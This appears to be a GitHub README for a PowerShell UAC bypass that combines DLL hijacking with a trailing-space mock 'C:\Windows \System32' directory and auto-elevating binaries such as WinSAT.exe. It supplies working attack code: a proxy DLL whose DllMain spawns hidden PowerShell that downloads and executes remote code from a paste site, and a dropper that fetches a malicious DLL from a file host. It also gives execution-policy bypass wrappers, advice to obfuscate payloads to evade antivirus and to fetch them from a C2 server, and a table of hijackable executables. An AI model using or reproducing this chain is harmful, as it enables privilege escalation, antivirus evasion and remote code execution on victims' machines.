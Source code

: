 <!-- # Powershell UAC bypass -->
<img src="https://i.snipboard.io/b2ozpR.jpg"></img>

⚠ ONLY USE FOR EDUCATIONAL PURPOSES ⚠ 
<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#deployment">Deployment</a>
	  <ul>
	  	<li> <a href="#execution-timeline">Execution timeline</a></li>
		<li> <a href="#creating-the-payload">Creating the payload</a></li>
	  </ul>
    </li>
        <li>
      <a href="#terms">Terms And Definitions</a>
          <ul>
        <li><a href="#what-is-uac">What is UAC?</a></li>
        <li><a href="#dll-hijacking">DLL Hijacking</a></li>
        <li><a href="#mock-directories">Mock Directories</a></li>
    </ul>
    </li>
    <li><a href="#auto-elavate-applications">Auto elavate applications</a></li>
    
  </ol>
</details>

---


# Deployment

---

## Execution timeline

This powershell payload is simply an advanced dropper, paving way for the exploit we use to be ran with administrative permissions.

1. The powershell payload is run
2. It creates a directory "C:\Windows \System32"
3. It copies an autoelavate program from its original location to the mock directory
   1. C:\Windows\System32\WinSAT.exe -> C:\windows \System32\winSAT.exe
4. It downloads your malicious DLL from your C2
5. It starts the auto elevate application, then deletes the parent mock directory



---
## Creating the payload

First, we need to create the file to be dropped, If you dont have a server setup - use  [Filebin](https://filebin.net/). Though it has had a history of deleting files with no notice.

To easiliy create said DLL  - I would modify [This template](https://github.com/salasak/prxdll_templates) with the code below. You can also use the template providied in this projects source code.

prxdll_version/dllmain.c  - source/dll_template/dllmain.c
```c++
#include "pch.h"
#include "prxdll.h"
#include "windows.h"
BOOL APIENTRY DllMain(
	const HINSTANCE instance,
	const DWORD reason,
	const PVOID reserved)
{
	switch (reason) {
	case DLL_PROCESS_ATTACH:
		WinExec("powershell -NoProfile -ExecutionPolicy bypass -windowstyle hidden -Command \"Start-Process -verb runas powershell\" \"'-NoProfile -windowstyle hidden -ExecutionPolicy bypass -Command iex( iwr https://textbin.net/raw/yw9xytxlsa )\" '\"", 1);
		DisableThreadLibraryCalls(instance);
		return prx_attach(instance);
	case DLL_PROCESS_DETACH:
		prx_detach(reserved);
		break;
	}
	return TRUE;
}
```
The code above is ran with administrative permissions, however - the powershell session is not in admin. For the powershell command you use, I suggest the iex method for its ease and shortness.
```powershell
iex (iwr c2.url) # I suggest textbin for its minimal guidelines compared to pastebin
```


Next you need to choose your autoelavate application. I prefer to use winSAT.exe as there is nothing appears when ran. Heres some other <a href="#auto-elavate-applications">Auto elavate applications</a>.

Now edit the powershell dropper
```powershell
New-Item '\\?\C:\Windows \System32' -ItemType Directory
Set-Location -Path '\\?\C:\Windows \System32'
copy C:\Windows\System32\WinSAT.exe "C:\windows \System32\winSAT.exe"
Invoke-WebRequest -Uri 'https://filebin.net/bajzrgruy6h83o4n/version.dll' -OutFile 'version.dll'
Start-Process -Filepath 'C:\windows \System32\winSAT.exe'
Start-Sleep -s 1
Remove-Item '\\?\C:\Windows \' -Force -Recurse
```

First modification:
* Build your DLL using visual studio code and upload it to filebin. My DLL adds a windows defender preference to not scan the TEMP directory
* Replace the Invoke-WebRequest Uri with your link and replace the copy and start procsess argument with the location of your autoelavate application.
* Replace every new line with a semicolon and convert it into a batch script to bypass exectuion policies.
```cmd
powershell.exe -windowstyle hidden -NoProfile -ExecutionPolicy bypass -Command "Yourcodehere"
```
And boom! You can execute that system command bypass UAC!

For a final step, [Obfuscate](https://github.com/danielbohannon/Invoke-Obfuscation) your code, and fetch and execute it to bypass most antiviruses.

```batch
powershell.exe -windowstyle hidden -NoProfile -ExecutionPolicy bypass -Command "iex ( iwr textbinurl)"
```

Remember - you can program this into most high level languages - as all you need to do is execute a system command!


---
<br>

# Terms

## What Is UAC
Microsoft introduced UAC (User Account Control) with Windows Vista and Windows Server 2008.\
In short terms - UAC aims to improve the security of Microsoft Windows by giving programs standard user privileges until an administrator authorizes an increase or elevation of permissions.  [Wikipedia](https://en.wikipedia.org/wiki/User_Account_Control#Features)

<br>

## DLL Hijacking
DLL Hijacking means a program will load and execute a malicious DLL contained in the same folder as a data file opened by these programs.
[Wikipedia](https://en.wikipedia.org/wiki/Dynamic-link_library#DLL_hijacking)

<br>

## Mock directories

Mock directories are folders with a trailing space. For example \
```
C:\Windows \System32
```


See the space " " between "Windows" and "\System32".\


##  Auto elavate applications
<table bgcolor="" cellpadding="2" cellspacing="0" style="background: rgb(255, 255, 255); width: 643px;">
	<colgroup><col width="341">
	<col width="75">
	<col width="213">
	</colgroup><tbody><tr bgcolor="" style="background: rgb(229, 229, 229);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<strong><font color="#000000"><font face="">Executable</font></font></strong></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<strong><font color="#000000"><font face="">DLL</font></font></strong></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<strong><font color="#000000"><font face="">Comment</font></font></strong></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">ComputerDefaults.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods.</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">EASPolicyManagerBrokerHost.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">fodhelper.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			settings and can be used to bypass UAC using other methods</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">FXSUNATD.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">msconfig.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">OptionalFeatures.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			Windows Optional Features</font></font></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">sdclt.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods; opens Windows Backup</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">ServerManager.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">ServerManager.exe
			is not present by default</font></font></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">systemreset.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">sysprep.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Creates
			sub folder.&nbsp;</font></font><strong><font color="#000000"><font face="">Sysprep
			process has to be killed directly after UAC bypass, otherwise
			sysprep is executed!</font></font></strong></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">SystemSettingsAdminFlows.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">WinSAT.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">WSReset.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			Windows Store</font></font></p>
		</td>
	</tr>
</tbody></table>
